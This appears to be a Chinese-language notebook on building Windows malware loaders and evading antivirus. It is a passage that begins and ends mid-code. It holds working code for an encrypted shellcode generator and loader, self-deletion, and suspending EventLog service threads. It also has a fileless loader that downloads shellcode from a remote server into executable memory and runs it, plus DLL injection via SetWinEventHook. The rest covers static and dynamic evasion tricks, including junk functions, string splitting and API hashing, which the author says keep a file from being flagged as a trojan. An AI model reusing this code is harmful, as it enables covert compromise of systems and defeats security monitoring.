file.write('char sc_' + format(i//16) + '[16] = {')
k += 1
file.write('{}'.format(hex(elt)))
if(i%16 == 0):
file.write('};\n')
elif j != len(ciphertext) - 1:
file.write(',')
i += 1
if(i%16 != 1):
file.write('};\n')
file.write('\nchar sc[{}];\n'.format(len(ciphertext)))
file.write('int sc_length = {};\n'.format(len(ciphertext)))
file.write("void buildsc_0(){\n")
l = 1
m = 1
for i in range(k):
file.write('\tmemcpy(&sc[{}], sc_{}, 16);\n'.format(i*16, i))
if(l % 200 == 0):
file.write("}\nvoid buildsc_" + format(m) + "(){\n")
m += 1
l += 1
file.write("}\n")
file.write("void buildsc(){\n")
for i in range(m):
file.write("\tbuildsc_{}();\n".format(i))
file.write("}")
file.write('\nBYTE key[] = "{}";\n'.format(key.decode()))
file.close()
main文件
#include "helpers.h"
#include <TlHelp32.h>
#include "sc.h"
int main(void) {
buildsc(); //调用函数组合shellcode，shellcode存储到sc数组
//对shellcode base64解码
size_t szOutput = 0;
DWORD size = 0;
unsigned char* file_enc = NULL;
BYTE* beaconContent = NULL;
size_t beaconSize = NULL;
file_enc = base64_decode(sc, sc_length, &szOutput);
if (szOutput == 0) {
DEBUG("[x] Base64 decode failed \n");
return -1;
}
for (int i = 0; i < sc_length; i++) {
printf("0x%x,", file_enc[i]);
}
printf("\n");
//AES解密
beaconSize = szOutput - 16;
beaconContent = (unsigned char*)calloc(beaconSize, sizeof(BYTE));
BOOL decryptStatus = aes_decrypt(key, (sizeof(key) / sizeof(key[0])) - 1, file_enc, beaconSize, beaconContent);
if (!decryptStatus || beaconContent == NULL) {
DEBUG("[x] AES decryption failed\n");
return -1;
}
//完全解密后的数据存储在beaconContent数组中
for (int i = 0; i < beaconSize; i++) {
printf("0x%x,", beaconContent[i]);
}
printf("\n");
}
其他
程序自删除功能
这个程序只会自删除
#include <Windows.h>
#include <strsafe.h>
#define SELF_REMOVE_STRING TEXT("cmd.exe /C ping 1.1.1.1 -n 1 -w 3000 > Nul & Del /f /q \"%s\"")
void DelMe()
{
TCHAR szModuleName[MAX_PATH];
TCHAR szCmd[2 * MAX_PATH];
STARTUPINFO si = {0};
PROCESS_INFORMATION pi = {0};
GetModuleFileName(NULL, szModuleName, MAX_PATH);
StringCbPrintf(szCmd, 2 * MAX_PATH, SELF_REMOVE_STRING, szModuleName);
CreateProcess(NULL, szCmd, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
CloseHandle(pi.hThread);
CloseHandle(pi.hProcess);
}
void main()
{
DelMe();
}
挂起Windows事件服务
从svchost中获取windows事件进程，在进程中枚举线程并挂起。
本地未测试成功，可能跟权限问题有关
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>
#include <strsafe.h>
#pragma comment(lib, "DbgHelp")
using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
IN HANDLE ThreadHandle,
IN THREADINFOCLASS ThreadInformationClass,
OUT PVOID ThreadInformation,
IN ULONG ThreadInformationLength,
OUT PULONG ReturnLength
);
int main()
{
HANDLE serviceProcessHandle;
HANDLE snapshotHandle;
HANDLE threadHandle;
HMODULE modules[2048] = {};
SIZE_T modulesSize = sizeof(modules);
DWORD modulesSizeNeeded = 0;
DWORD moduleNameSize = 0;
SIZE_T modulesCount = 0;
WCHAR remoteModuleName[128] = {};
HMODULE serviceModule = NULL;
MODULEINFO serviceModuleInfo = {};
DWORD_PTR threadStartAddress = 0;
DWORD bytesNeeded = 0;
myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));
THREADENTRY32 threadEntry;
threadEntry.dwSize = sizeof(THREADENTRY32);
SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);
SERVICE_STATUS_PROCESS serviceStatusProcess = {};
//# Get PID of svchost.exe that hosts EventLog service
QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
DWORD servicePID = serviceStatusProcess.dwProcessId;
//# Open handle to the svchost.exe
//serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
serviceProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, servicePID);
_Post_equals_last_error_ DWORD GetLastError();
snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
//# Get a list of modules loaded by svchost.exe
EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
_Post_equals_last_error_ DWORD GetLastError();
modulesCount = modulesSizeNeeded / sizeof(HMODULE);
for (size_t i = 0; i < modulesCount; i++)
{
serviceModule = modules[i];
//# Get loaded module's name
GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));
if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
{
printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
}
}
//# Enumerate threads
Thread32First(snapshotHandle, &threadEntry);
while (Thread32Next(snapshotHandle, &threadEntry))
{
if (threadEntry.th32OwnerProcessID == servicePID)
{
threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);
//# Check if thread's start address is inside wevtsvc.dll memory range
if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
{
printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);
//# Suspend EventLog service thread
SuspendThread(threadHandle);
Sleep(2000);
}
}
}
return 0;
}
无落地文件shellcode（HTTP下载）
一种无文件shellcode的实现方式。
使用winhttp库来远程下载shellcode
改进思路
1.从远程服务器下载加密的数据，要使用时再解密。（需要准备一套加密程序）
2.实现调试和沙箱判断，是真实环境时再下载shellcode
3.敏感函数绕杀软hook
#include <windows.h>
#include <winhttp.h>
#include <stdio.h>
#include <Windows.h>
#include <iostream>
#include <vector>
#pragma comment(lib,"winhttp.lib")
#pragma warning(disable:4996)
typedef struct Params {
LPVOID pBaseAddress;
} PARAMS;
typedef VOID(*fprun)(PARAMS pParams);
//XOR解密程序
void XOR(char* data, int len, unsigned char key) {
int i;
for (i = 0; i < len; i++)
data[i] ^= key;
}
// Encryption Key
const char key[2] = "A";
size_t keySize = sizeof(key);
//加/解密
void xor_bidirectional_encode(const char* key, const size_t keyLength, char* buffer, const size_t length) {
for (size_t i = 0; i < length; ++i) {
buffer[i] ^= key[i % keyLength];
}
}
//枚举堆并XOR加密
PROCESS_HEAP_ENTRY entry;
void HeapEncryptDecrypt() {
SecureZeroMemory(&entry, sizeof(entry));
while (HeapWalk(GetProcessHeap(), &entry)) {
if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) { //如果内存数据存在
xor_bidirectional_encode(key, keySize, (char*)(entry.lpData), entry.cbData); //
}
}
}
//https://learn.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
int main()
{
//--------- CONFIGURE -----------
LPCWSTR remotehost = L"192.168.14.1"; //change to your IP
int remoteport = 8000; //change to your port
LPCWSTR remotedir = L"/TEST1"; //change to your directory of the hosted bin file
unsigned char key = 0x7e; //change to your key
//-------------------------------
// Initialize variables
HINTERNET hInternet;
HINTERNET hHttpSession;
HINTERNET hHttpConnection;
HINTERNET hHttpRequest;
DWORD dwSize;
BOOL bResults;
DWORD dwStatus;
DWORD dwStatusSize;
DWORD dwDownloaded = 0;
LPSTR pszOutBuffer;
std::vector<unsigned char> PEbuffer;
// Initialize WinHTTP (change the first argument to a valid User-Agent instead)
hInternet = WinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
printf("[+] WinHTTP initialized\n");
// Connect to the HTTP server
hHttpSession = WinHttpConnect(hInternet, remotehost, remoteport, 0);
printf("[+] Connected to HTTP Server\n");
// Open an HTTP request
hHttpRequest = WinHttpOpenRequest(hHttpSession, L"GET", remotedir, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
printf("[+] Sending HTTP GET Request\n");
// Send a request
bResults = WinHttpSendRequest(hHttpRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
printf("[+] WinHTTP request sent\n");
// Wait for the response
bResults = WinHttpReceiveResponse(hHttpRequest, NULL);
printf("[+] Response retrieved\n");
do
{
dwSize = 0;
if (!WinHttpQueryDataAvailable(hHttpRequest, &dwSize))
{
printf("Error %u in WinHttpQueryDataAvailable.\n", GetLastError());
}
// Allocate space for the buffer.
pszOutBuffer = new char[dwSize + 1];
// No more available data
if (!pszOutBuffer) {
printf("[-] No more available data");
dwSize = 0;
}
// Read the Data.
ZeroMemory(pszOutBuffer, dwSize + 1);
if (!WinHttpReadData(hHttpRequest, (LPVOID)pszOutBuffer,
dwSize, &dwDownloaded))
printf("Error %u in WinHttpReadData.\n", GetLastError());
else
PEbuffer.insert(PEbuffer.end(), pszOutBuffer, pszOutBuffer + dwDownloaded);
} while (dwSize > 0);
char* PE = (char*)malloc(PEbuffer.size());
for (int i = 0; i < PEbuffer.size(); i++) {
PE[i] = PEbuffer[i] ^ key; //XOR encrypted
printf("%x",PE[i]);
}
//到这里完成下载放入堆并亦或加密
printf("[+] Encrypted shellcode allocated in heap\n");
// Set the base address of the current image.
PARAMS pParams;
pParams.pBaseAddress = (LPVOID)GetModuleHandleA(NULL);
////printf("[+] Current image base address = 0x%p\n", pParams.pBaseAddress);
LPVOID pBuffer = VirtualAlloc(NULL, PEbuffer.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); //分配RWX内存块
if (NULL == pBuffer) {
printf("[!] VirtualAlloc failed\n");
exit(1);
}
//printf("[+] Allocated space for the buffer %p\n", pBuffer);
XOR(PE, PEbuffer.size(), key); //decrypt the PE shellcode before writing to memory
// Copy the shellcode into it.
memcpy(pBuffer, PE, PEbuffer.size());
//printf("[+] Shellcode decrypted and written\n");
//((void(*)())pBuffer)();
//到这里分配内存，把解密后的shellcode复制到pBuffer
//time for your creativity
//printf("[+] Encrypting the heap for 10 seconds\n");
HeapEncryptDecrypt();
//////Sleep(10); //create your own sleep patch instead
////printf("[+] Decrypting the heap\n");
HeapEncryptDecrypt();
fprun Run = (fprun)pBuffer;
Run(pParams);
//运行HeapEncryptDecrypt是干什么的，对当前堆加密再解密？有什么用
// Make a function pointer to the run function shellcode.
//这里是执行shellcode
// Close the HTTP request
WinHttpCloseHandle(hHttpRequest);
// Close the session
WinHttpCloseHandle(hHttpSession);
// Cleanup
WinHttpCloseHandle(hInternet);
free(PE);
return 0;
}
PEB学习
PEB是windows中的进程环境块，存储了进程相关的信息。
在windbg中使用dt _peb可以查看当前进程的peb结构体，关键的三个参数
+0x010 ImageBaseAddress : Ptr64 Void
+0x018 Ldr : Ptr64 _PEB_LDR_DATA
+0x020 ProcessParameters : Ptr64 _RTL_USER_PROCESS_PARAMETERS
找到peb地址
0:024> r $peb
$peb=00000098d212b000
将地址应用到结构体中，观察ImageBaseAddress
0:024> dt _peb @$peb
ntdll!_PEB
+0x000 InheritedAddressSpace : 0 ''
+0x001 ReadImageFileExecOptions : 0 ''
+0x002 BeingDebugged : 0x1 ''
+0x003 BitField : 0x34 '4'
+0x003 ImageUsesLargePages : 0y0
+0x003 IsProtectedProcess : 0y0
+0x003 IsImageDynamicallyRelocated : 0y1
+0x003 SkipPatchingUser32Forwarders : 0y0
+0x003 IsPackagedProcess : 0y1
+0x003 IsAppContainer : 0y1
+0x003 IsProtectedProcessLight : 0y0
+0x003 IsLongPathAwareProcess : 0y0
+0x004 Padding0 : [4] ""
+0x008 Mutant : 0xffffffff`ffffffff Void
+0x010 ImageBaseAddress : 0x00007ff7`f8c90000 Void
+0x018 Ldr : 0x00007ffb`bb5343c0 _PEB_LDR_DATA
+0x020 ProcessParameters : 0x0000019a`f7605040 _RTL_USER_PROCESS_PARAMETERS
查看ImageBaseAddress的内容
0:024> db 0x00007ff7f8c90000
00007ff7`f8c90000 4d 5a 00 00 00 00 00 00-00 00 00 00 00 00 00 00 MZ..............
00007ff7`f8c90010 00 00 00 00 00 00 00 00-40 00 00 00 00 00 00 00 ........@.......
00007ff7`f8c90020 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................
00007ff7`f8c90030 00 00 00 00 00 00 00 00-00 00 00 00 40 00 00 00 ............@...
00007ff7`f8c90040 50 45 00 00 64 86 04 00-66 42 69 63 00 00 00 00 PE..d...fBic....
00007ff7`f8c90050 00 00 00 00 f0 00 22 00-0b 02 0b 00 00 02 00 00 ......".........
00007ff7`f8c90060 3e 3f 00 00 00 00 00 00-00 70 00 00 00 70 00 00 >?.......p...p..
00007ff7`f8c90070 00 00 c9 f8 f7 7f 00 00-00 10 00 00 00 02 00 00 ................
和文件原始内容是相同的 
直接查询ImageBaseAddress
0:001> dt _peb
ntdll!_PEB
+0x010 ImageBaseAddress : Ptr64 Void
0:001> dd @$peb+0x010 L2
000007ff`fffd5010 49d40000 00000000
// 49d40000 00000000 is little-endian byte format - need to invert
0:001> db 0000000049d40000 L100
!peb
使用SetWinEventHook来执行回调代码
SetWinEventHook是一个监控UI相关操作事件的钩子，可以通过它来使用callback执行想要的代码 https://scorpiosoftware.net/2023/09/24/windows-hook-events/
单exe
// SimpleWinEventHook.cpp : This file contains the 'main' function. Program execution begins and ends there.
//
#include "pch.h"
#pragma comment(lib, "oleacc")
const char* EventNameToString(DWORD event) {
switch (event) {
case EVENT_SYSTEM_SOUND: return "Sound";
case EVENT_SYSTEM_ALERT: return "Alert";
case EVENT_SYSTEM_FOREGROUND: return "Foreground";
case EVENT_SYSTEM_MENUSTART: return "Menu Start";
case EVENT_SYSTEM_MENUEND: return "Menu End";
case EVENT_SYSTEM_CAPTURESTART: return "Capture Start";
case EVENT_SYSTEM_CAPTUREEND: return "Capture End";
case EVENT_SYSTEM_MOVESIZESTART: return "Move/Size Start";
case EVENT_SYSTEM_MOVESIZEEND: return "Move/Size End";
case EVENT_SYSTEM_DIALOGSTART: return "Dialog Start";
case EVENT_SYSTEM_DIALOGEND: return "Dialog End";
case EVENT_SYSTEM_SWITCHSTART: return "Switch Start";
case EVENT_SYSTEM_SWITCHEND: return "Switch End";
case EVENT_SYSTEM_MINIMIZESTART: return "Minimize Start";
case EVENT_SYSTEM_MINIMIZEEND: return "Minimize End";
case EVENT_OBJECT_CREATE: return "Object Create";
case EVENT_OBJECT_DESTROY: return "Object Destroy";
case EVENT_OBJECT_SHOW: return "Object Show";
case EVENT_OBJECT_HIDE: return "Object Hide";
case EVENT_OBJECT_STATECHANGE: return "State Changed";
case EVENT_OBJECT_LOCATIONCHANGE: return "Location Changed";
case EVENT_OBJECT_NAMECHANGE: return "Name Change";
case EVENT_OBJECT_DESCRIPTIONCHANGE: return "Desc Changed";
case EVENT_OBJECT_VALUECHANGE: return "Value Changed";
case EVENT_OBJECT_PARENTCHANGE: return "Parent Changed";
}
return "";
}
void CALLBACK OnEvent(HWINEVENTHOOK hWinEventHook, DWORD event, HWND hwnd,
LONG idObject, LONG idChild, DWORD idEventThread, DWORD time) {
CComPtr<IAccessible> spAcc;
CComVariant child;
::AccessibleObjectFromEvent(hwnd, idObject, idChild, &spAcc, &child);
CComBSTR name;
if (spAcc)
spAcc->get_accName(CComVariant(idChild), &name);
DWORD pid = 16536;
WCHAR exeName[MAX_PATH];
PCWSTR pExeName = L"";
if (hwnd && ::GetWindowThreadProcessId(hwnd, &pid)) {
auto hProcess = ::OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
if (hProcess) {
DWORD size = _countof(exeName);
if (::QueryFullProcessImageName(hProcess, 0, exeName, &size))
pExeName = wcsrchr(exeName, L'\\') + 1;
::CloseHandle(hProcess);
}
}
printf("Event: 0x%X (%s) HWND: 0x%p, ID: 0x%X Child: 0x%X TID: %u PID: %u (%ws) Time: %u Name: %ws\n",
event, EventNameToString(event),
hwnd, idObject, idChild, idEventThread,
pid, pExeName,
time, name.m_str);
}
int main() {
auto hHook = ::SetWinEventHook(EVENT_MIN, EVENT_MAX, nullptr, OnEvent, 0, 0,
WINEVENT_OUTOFCONTEXT | WINEVENT_SKIPOWNPROCESS | WINEVENT_SKIPOWNTHREAD);
::GetMessage(nullptr, nullptr, 0, 0);
}
dll
// WinHookInject.cpp : This file contains the 'main' function. Program execution begins and ends there.
//
#include "pch.h"
int main(int argc, const char* argv[]) {
DWORD pid = argc < 2 ? 0 : atoi(argv[1]);
if (pid == 0) {
printf("Warning: injecting to potentially processes with threads connected to the current desktop.\n");
printf("Continue? (y/n) ");
char ans[3];
gets_s(ans);
if (tolower(ans[0]) != 'y')
return 0;
}
auto hLib = ::LoadLibrary(L"Injected.Dll");
if (!hLib) {
printf("DLL not found!\n");
return 1;
}
auto OnEvent = (WINEVENTPROC)::GetProcAddress(hLib, "OnEvent");
if (!OnEvent) {
printf("Event handler not found!\n");
return 1;
}
auto hHook = ::SetWinEventHook(0x0016, 0x0017,
hLib, OnEvent, pid, 0, WINEVENT_INCONTEXT);
if (!hHook) {
printf("Failed!\n");
return 1;
}
//
// keep process alive
//
::GetMessage(nullptr, nullptr, 0, 0);
return 0;
}
#include "pch.h"
#pragma comment(lib, "oleacc")
const char* EventNameToString(DWORD event) {
switch (event) {
case EVENT_SYSTEM_SOUND: return "Sound";
case EVENT_SYSTEM_ALERT: return "Alert";
case EVENT_SYSTEM_FOREGROUND: return "Foreground";
case EVENT_SYSTEM_MENUSTART: return "Menu Start";
case EVENT_SYSTEM_MENUEND: return "Menu End";
case EVENT_SYSTEM_CAPTURESTART: return "Capture Start";
case EVENT_SYSTEM_CAPTUREEND: return "Capture End";
case EVENT_SYSTEM_MOVESIZESTART: return "Move/Size Start";
case EVENT_SYSTEM_MOVESIZEEND: return "Move/Size End";
case EVENT_SYSTEM_DIALOGSTART: return "Dialog Start";
case EVENT_SYSTEM_DIALOGEND: return "Dialog End";
case EVENT_SYSTEM_SWITCHSTART: return "Switch Start";
case EVENT_SYSTEM_SWITCHEND: return "Switch End";
case EVENT_SYSTEM_MINIMIZESTART: return "Minimize Start";
case EVENT_SYSTEM_MINIMIZEEND: return "Minimize End";
case EVENT_OBJECT_CREATE: return "Object Create";
case EVENT_OBJECT_DESTROY: return "Object Destroy";
case EVENT_OBJECT_SHOW: return "Object Show";
case EVENT_OBJECT_HIDE: return "Object Hide";
case EVENT_OBJECT_STATECHANGE: return "State Changed";
case EVENT_OBJECT_LOCATIONCHANGE: return "Location Changed";
case EVENT_OBJECT_NAMECHANGE: return "Name Change";
case EVENT_OBJECT_DESCRIPTIONCHANGE: return "Desc Changed";
case EVENT_OBJECT_VALUECHANGE: return "Value Changed";
case EVENT_OBJECT_PARENTCHANGE: return "Parent Changed";
}
return "";
}
HANDLE hConsole;
BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, PVOID lpReserved) {
switch (reason) {
case DLL_PROCESS_DETACH:
if (hConsole) // be nice
::CloseHandle(hConsole);
break;
case DLL_PROCESS_ATTACH:
if (::AllocConsole()) {
auto hConsole = ::CreateFile(L"CONOUT$", GENERIC_WRITE,
0, nullptr, OPEN_EXISTING, 0, nullptr);
if (hConsole == INVALID_HANDLE_VALUE)
return FALSE;
::SetStdHandle(STD_OUTPUT_HANDLE, hConsole);
}
break;
}
return TRUE;
}
extern "C" __declspec(dllexport)
void CALLBACK OnEvent(HWINEVENTHOOK hWinEventHook, DWORD event, HWND hwnd,
LONG idObject, LONG idChild, DWORD idEventThread, DWORD time) {
CComPtr<IAccessible> spAcc;
CComVariant child;
::AccessibleObjectFromEvent(hwnd, idObject, idChild, &spAcc, &child);
CComBSTR name;
if (spAcc)
spAcc->get_accName(CComVariant(idChild), &name);
printf("Event: 0x%X (%s) HWND: 0x%p, ID: 0x%X Child: 0x%X TID: %u Time: %u Name: %ws\n",
event, EventNameToString(event),
hwnd, idObject, idChild, idEventThread,
time, name.m_str);
system("calc.exe");
}
各种shellcode
https://osandamalith.com/shellcodes/
防御规避
过动态的方式
白利用
新注入技术
直接/间接syscall
API HASH
使用原生API
过静态的方式
空函数
疯狂添加空函数
void dummyFunction() {
}
dummyFunction();
无意义语句
像什么数值运算之类的
int a = 0;
a = a + 1;
Sleep延时
Sleep函数会出现在导入表中
Sleep(1); //延时1毫秒
空循环，也是延时
int a = 0;
void delay() { for (volatile int i = 0; i < 1000000; i++)
{
a = a + 2;
}
delay()
新建函数指针间接调用
代码演示创建了一个指向CreateEventW函数的函数指针类型CreateEventWPtr，通过这个类型新建createEventW来间接调用CreateEventW
#include <stdio.h>
#include <windows.h>
typedef HANDLE(WINAPI *CreateEventWPtr)(
LPSECURITY_ATTRIBUTES lpEventAttributes,
BOOL bManualReset,
BOOL bInitialState,
LPCWSTR lpName
);
int main() {
HMODULE hKernel32 = GetModuleHandle("kernel32.dll");
if (hKernel32 == NULL) {
printf("Failed to load kernel32.dll\n");
return 1;
}
CreateEventWPtr createEventW = (CreateEventWPtr)GetProcAddress(hKernel32, "CreateEventW");
if (createEventW == NULL) {
printf("Failed to get address of CreateEventW\n");
return 1;
}
HANDLE hEvent = createEventW(NULL, TRUE, FALSE, L"MyEvent");
if (hEvent == NULL) {
printf("Failed to create event\n");
return 1;
}
printf("Event created successfully\n");
return 0;
}
多添加函数调用,产生无意义结果
多添加点函数，调用这些函数产生无意义的结果，让更多正常函数出现在导入表中。 使用哪些正常函数可参照正常程序。 不然直接看到除了OpenProcess、VirtualAlloc、memcpy、processHandle这种就没有其他的函数了，一眼就知道是马
lstrlenW函数
LPCWSTR str = L"Hello, World!";
lstrlenW(str);
其他....
shellcode分离再组合
把shellcode分成两段，再组合
unsigned char shellcode[] = "\xfd\x48\x83\xe4\xf0";
char first[] = "\xfc";
memcpy(shellcode, first, 1); //把first的1个字节复制到shellcdoe里，复制是由前往后复制的，这里的复制是覆盖，要复制多少过去，就要在原shellcode需要填充多少字节的数据
关键字数组化处理
加载dll时使用数组可打乱针对dll名称关键字的静态查杀
假如LoadLibraryA("NTDLL.DLL")被杀，可以采用以下方式解决
CHAR NameStr[] = {'A','D','V','A','P','I','3','2','.','D','L','L','\0'};
LoadLibraryA(NameStr);
还可以用数组拆分方式进一步打乱关键字
CHAR NameStr[] = {'A','D','V','A','P','I','3','2','\0'};
CHAR OtherStr[] = {'.','D','L','L','\0'};
CHAR CombinedStr[sizeof(NameStr) + sizeof(OtherStr)];
strcpy(CombinedStr, NameStr);
strcat(CombinedStr, OtherStr);
LoadLibraryA(CombinedStr);
绕杀软hook
这里需要明白一个基本道理，系统级别的函数都是在ntdll.dll中，函数调用需要在内存中找到函数的地址，然后才可以调用。
使用API-HASH
通过函数名称计算一个hash值，再反计算hash值得到函数名，再根据函数名查找函数地址，新建一个相同的函数指针来调用原函数
##第一步，计算要隐藏的函数hash,其中$hash和0xab10f2ff可以自定义，以CreateProcessA为例，计算的hash是0x005882941
$APIsToHash = @("CreateProcessA")
$APIsToHash | % {
$api = $_
$hash = 0x44
[int]$i = 0
$api.ToCharArray() | % {
$l = $_
$c = [int64]$l
$c = '0x{0:x}' -f $c
$hash += $hash * 0xab10f2ff + $c -band 0xffffff
$hashHex = '0x{0:x}' -f $hash
$i++
write-host "Iteration $i : $l : $c : $hashHex"
}
write-host "$api`t $('0x00{0:x}' -f $hash)"
}
//第二步，编写相应hash解密函数与函数地址查找函数
DWORD getHashFromString(char* string)
{
size_t stringLength = strnlen_s(string, 50);
DWORD hash = 0x44;
for (size_t i = 0; i < stringLength; i++)
{
hash += (hash * 0xab10f2ff + string[i]) & 0xffffff;
}
// printf("%s: 0x00%x\n", string, hash);
return hash;
}
PDWORD getFunctionAddressByHash(char* library, DWORD hash)
{
PDWORD functionAddress = (PDWORD)0;
// Get base address of the module in which our exported function of interest resides (kernel32 in the case of CreateThread)
HMODULE libraryBase = LoadLibraryA(library);
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)libraryBase;
PIMAGE_NT_HEADERS imageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)libraryBase + dosHeader->e_lfanew);
DWORD_PTR exportDirectoryRVA = imageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
PIMAGE_EXPORT_DIRECTORY imageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((DWORD_PTR)libraryBase + exportDirectoryRVA);
// Get RVAs to exported function related information
PDWORD addresOfFunctionsRVA = (PDWORD)((DWORD_PTR)libraryBase + imageExportDirectory->AddressOfFunctions);
PDWORD addressOfNamesRVA = (PDWORD)((DWORD_PTR)libraryBase + imageExportDirectory->AddressOfNames);
PWORD addressOfNameOrdinalsRVA = (PWORD)((DWORD_PTR)libraryBase + imageExportDirectory->AddressOfNameOrdinals);
// Iterate through exported functions, calculate their hashes and check if any of them match our hash of 0x00544e304 (CreateThread)
// If yes, get its virtual memory address (this is where CreateThread function resides in memory of our process)
for (DWORD i = 0; i < imageExportDirectory->NumberOfFunctions; i++)
{
DWORD functionNameRVA = addressOfNamesRVA[i];
DWORD_PTR functionNameVA = (DWORD_PTR)libraryBase + functionNameRVA;
char* functionName = (char*)functionNameVA;
DWORD_PTR functionAddressRVA = 0;
// Calculate hash for this exported function
DWORD functionNameHash = getHashFromString(functionName);
// If hash for CreateThread is found, resolve the function address
if (functionNameHash == hash)
{
functionAddressRVA = addresOfFunctionsRVA[addressOfNameOrdinalsRVA[i]];
functionAddress = (PDWORD)((DWORD_PTR)libraryBase + functionAddressRVA);
printf("%s : 0x%x : %p\n", functionName, functionNameHash, functionAddress);
return functionAddress;
}
}
}
//第三步，新建一个相对应的函数指针
using NewCreateProcessA = BOOL(WINAPI*)(
LPCSTR lpApplicationName,
LPSTR lpCommandLine,
LPSECURITY_ATTRIBUTES lpProcessAttributes,
LPSECURITY_ATTRIBUTES lpThreadAttributes,
BOOL bInheritHandles,
DWORD dwCreationFlags,
LPVOID lpEnvironment,
LPCSTR lpCurrentDirectory,
LPSTARTUPINFOA lpStartupInfo,
LPPROCESS_INFORMATION lpProcessInformation
);
//第四步，在main函数引用这个新函数
int main(){
PDWORD functionAddress = nullptr; //指针初始化
functionAddress = getFunctionAddressByHash((char*)"kernel32", 0x005882941);
//得到函数地址
NewCreateProcessA CreateProcessB = (NewCreateProcessA)functionAddress;
//新建一个函数类型
//引用CreateProcessB
STARTUPINFOA si = {};
PROCESS_INFORMATION pi = {};
CreateProcessB(NULL, (LPSTR)"C:\\Windows\\System32\\notepad.exe", NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}
打开了notepad，但导入表中没有CreateProcessA 
API-HASH2（GetModuleHandle和GetProcAddress）
定义不同的函数需要实现不同的函数原型
头文件定义类型
// typedefs.h
#pragma once
#include <Windows.h>
typedef struct _UNICODE_STRING {
USHORT Length;
USHORT MaximumLength;
PWSTR Buffer;
} UNICODE_STRING, * PUNICODE_STRING;
typedef struct _LDR_MODULE {
LIST_ENTRY InLoadOrderModuleList;
LIST_ENTRY InMemoryOrderModuleList;
